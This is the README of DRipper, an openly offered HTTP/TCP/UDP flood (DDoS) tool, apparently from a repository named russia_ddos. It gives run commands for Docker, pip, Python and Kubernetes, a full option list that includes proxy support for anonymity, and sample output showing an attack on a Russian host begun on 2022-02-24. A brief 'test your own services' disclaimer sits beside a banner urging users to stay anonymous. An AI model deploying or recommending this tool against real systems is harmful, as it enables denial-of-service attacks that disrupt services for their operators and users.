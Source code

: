 # DRipper

[![Build status][actions build badge]][actions build link]
[![Docker Pulls][docker pulls badge]][docker pulls link]
[![Docker Image Version (latest semver)][dockerhub badge]][dockerhub link]
[![License: MIT][license badge]][license link]

DESCRIPTION
-----------

This is reworked version of [DRipper](https://gist.github.com/scamp/33807688d0ebdcfbd4c29a4b992a8b54).
This script support HTTP/TCP/UDP flood attack. We recommend using this script for your own test purposes in the local (on-premise) environment to improve your own web services against DDoS attacks.

## Prerequisites

- Python 3.9 or higher
- Docker (optional) if you'd like to run script with docker

## How it looks

```bash
                                                                                
              ██████╗ ██████═╗██╗██████╗ ██████╗ ███████╗██████═╗               
              ██╔══██╗██╔══██║██║██╔══██╗██╔══██╗██╔════╝██╔══██║               
              ██║  ██║██████╔╝██║██████╔╝██████╔╝█████╗  ██████╔╝               
              ██║  ██║██╔══██╗██║██╔═══╝ ██╔═══╝ ██╔══╝  ██╔══██╗               
              ██████╔╝██║  ██║██║██║     ██║     ███████╗██║  ██║               
              ╚═════╝ ╚═╝  ╚═╝╚═╝╚═╝     ╚═╝     ╚══════╝╚═╝  ╚═╝               
                                                          v2.0.0                
                                                                                
        It is the end user's responsibility to obey all applicable laws.        
        It is just like a server testing script and Your IP is visible.         
                                                                                
                      Please, make sure you are ANONYMOUS!                      
                                                                                
 ────────────────────────────────────────────────────────────────────────────── 
  Description                       Status                                      
 ────────────────────────────────────────────────────────────────────────────── 
  Start Time                        2022-02-24 04:00:00                         
  Your Public IP / Country          131.*.*.* / AR                              
  Host IP / Country                 192.168.0.1:80 / RU                        
  Attack Method                     UDP-FLOOD                                         
 ────────────────────────────────────────────────────────────────────────────── 
  Threads                           50                                          
  vCPU Count                        16                                          
  Random Packet Length              True / Max length: 2048                     
 ────────────────────────────────────────────────────────────────────────────── 
  CloudFlare DNS Protection         Not protected                               
  Last Availability Check           04:10:52                                    
  Host Availability                 Accessible in 21 of 21 zones (100%)         
 ────────────────────────────────────────────────────────────────────────────── 
  UDP Statistic                                                                 
 ────────────────────────────────────────────────────────────────────────────── 
  Duration                          0:12:11                                     
  Sent Packets                      10,332,191                                     
  Sent Bytes                        2.22 GB                                   
  Connection Success                2                                           
  Connection Failed                 29                                          
  Connection Success Rate           6%                                          
 ────────────────────────────────────────────────────────────────────────────── 
                        Press CTRL+C to interrupt process.                       
                                                                                
                               #StandWithUkraine                               
```

## Usage

DRipper can run on Windows/Linux/macOS from command line.
We recommend to use `PowerShell` for Windows users to run the script, Linux/macOS users can use any shell.

Run `dripper --help` to see detailed params description.

```bash

██████╗ ██████═╗██╗██████╗ ██████╗ ███████╗██████═╗
██╔══██╗██╔══██║██║██╔══██╗██╔══██╗██╔════╝██╔══██║
██║  ██║██████╔╝██║██████╔╝██████╔╝█████╗  ██████╔╝
██║  ██║██╔══██╗██║██╔═══╝ ██╔═══╝ ██╔══╝  ██╔══██╗
██████╔╝██║  ██║██║██║     ██║     ███████╗██║  ██║
╚═════╝ ╚═╝  ╚═╝╚═╝╚═╝     ╚═╝     ╚══════╝╚═╝  ╚═╝
                                           v2.0.0

It is the end user's responsibility to obey all applicable laws.
It is just like a server testing script and Your IP is visible.

Please, make sure you are ANONYMOUS!

Usage: dripper [options] arg

Options:
  -h, --help            show this help message and exit
  -s TARGET, --target=TARGET
                        Attack target in {scheme}://{hostname}[:{port}][{path}] format
  -t THREADS, --threads=THREADS (default: 100)
                        Threads count.
  -r RANDOM_PACKET_LEN, --random_len=RANDOM_PACKET_LEN (default: 1)
                        Send random packets with random length. Turn on: 1, turn off: 0.
  -l MAX_RANDOM_PACKET_LEN, --max_random_packet_len=MAX_RANDOM_PACKET_LEN
                        Max random packets length (default: 48 for udp, 1000 for tcp, 0 for http).
  -m ATTACK_METHOD, --method=ATTACK_METHOD
                        Attack method: udp-flood, tcp-flood, http-flood. Could be auto-detected based on the scheme (protocol) of the target.
  -y FILENAME, --proxy_list=FILENAME
                        File (fs or http/https) with proxies in ip:port:username:password or ip:port line format.
                        Proxies will be ignored in udp attack!
                        Examples: proxylist.txt, https://proxies.com/fhjhajkdashdja
  -k PROXY_TYPE, --proxy_type=PROXY_TYPE (default socks5)
                        Type of proxy to work with. Supported types: socks5, socks4, http.
  -c STATE, --health_check=STATE (default: 1)
                        Controls health check availability. Turn on: 1, turn off: 0.
  -e HTTP_METHOD, --http_method=HTTP_METHOD (default: GET)
  -o SOCKET_TIMEOUT, --socket_timeout=SOCKET_TIMEOUT (default: 10 without proxy, 20 with proxy)
                        Timeout in seconds for socket connection is seconds.

Example: dripper -s http://192.168.0.1 -t 100
```

## How to Run

#### Using Docker

```bash
# HTTP flood
docker run -it --rm alexmon1989/dripper:latest -s http://127.0.0.1:80 -t 100 -m http-flood
# or
docker run -it --rm alexmon1989/dripper:latest -s http://127.0.0.1:80 -t 100
# or even
docker run -it --rm alexmon1989/dripper:latest -s http://127.0.0.1 -t 100

# TCP flood
docker run -it --rm alexmon1989/dripper:latest -s tcp://127.0.0.1:80 -t 100 -l 2048

# UDP flood
docker run -it --rm alexmon1989/dripper:latest -s udp://127.0.0.1:80 -t 100 -l 2048
```

#### Directly with Python.

Ensure you have Python 3.9 or better installed. Then clone this repo and run DRipper.py with params you need

```bash
git clone https://github.com/alexmon1989/russia_ddos.git
cd russia_ddos

# Install dependencies
python3 -m pip install --upgrade pip git+https://github.com/alexmon1989/russia_ddos.git
# Run script
dripper -s udp://127.0.0.1:80 -t 100 -r 1


# ===== Alternative variant =====

# Install python dependencies:
pip install -r requirements.txt
# Run script
python3 -m ripper.services -s udp://127.0.0.1:80 -t 100 -r 1
```

#### Kubernetes

You can deploy and run DRipper in Kubernetes cluster using [kube-dripper][kube-dripper-link] terraform configuration.
For details - see the [README][kube-dripper-readme] from **kube-dripper** project.

## How to run unit tests

#### Prepare
```bash
pip install pytest
```

#### Run
```bash
pytest
```

# License

This project is distributed under the MIT License, see [LICENSE](./LICENSE) for more information.

<!-- External links -->
[actions build badge]: https://github.com/alexmon1989/russia_ddos/actions/workflows/build.yml/badge.svg
[actions build link]:  https://github.com/alexmon1989/russia_ddos/actions/workflows/build.yml

[docker pulls link]:   https://hub.docker.com/r/alexmon1989/dripper
[docker pulls badge]:  https://img.shields.io/docker/pulls/alexmon1989/dripper
[dockerhub link]:      https://hub.docker.com/r/alexmon1989/dripper/tags
[dockerhub badge]:     https://img.shields.io/docker/v/alexmon1989/dripper?label=DockerHub

[kube-dripper-link]:   https://github.com/denismakogon/kube-dripper
[kube-dripper-readme]: https://github.com/denismakogon/kube-dripper/blob/main/README.md

[license badge]:       https://img.shields.io/badge/License-MIT-yellow.svg
[license link]:        ./LICENSE
